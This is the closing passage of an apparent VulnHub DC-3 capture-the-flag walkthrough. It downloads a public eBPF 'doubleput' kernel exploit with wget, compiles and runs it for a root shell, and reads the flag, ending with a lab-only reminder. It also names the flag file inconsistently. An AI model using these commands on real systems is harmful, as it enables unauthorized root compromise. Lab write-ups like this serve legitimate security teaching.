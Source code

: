 ```
# On the target (in /tmp)
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
# You should see an exploit tar/dir
tar -xvf exploit.tar   # if present
cd ebpf_mapfd_doubleput_exploit
chmod +x compile.sh
./compile.sh
./doubleput
```

**After running `./doubleput` you should get a root shell.**

---

## Step 16 — Verify root & capture the flag

```
# In the escalated shell
whoami
# => root

cd /root
ls
cat the_flag.txt
```

**Sample banner & success message (from exploit output):**

```text
\ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)


Congratulations are in order. :-)
...
```

Now you are root and can read `final_flag.txt`.

---

## Final words

You have completed the privilege escalation for DC-3 and retrieved the final flag.

> **Reminder:** All of the above steps must be executed **only** in environments you own or have explicit permission to test (CTF, TryHackMe, VulnHub, your own VMs). Do **not** use these techniques on unauthorized systems.

--- THE END ---
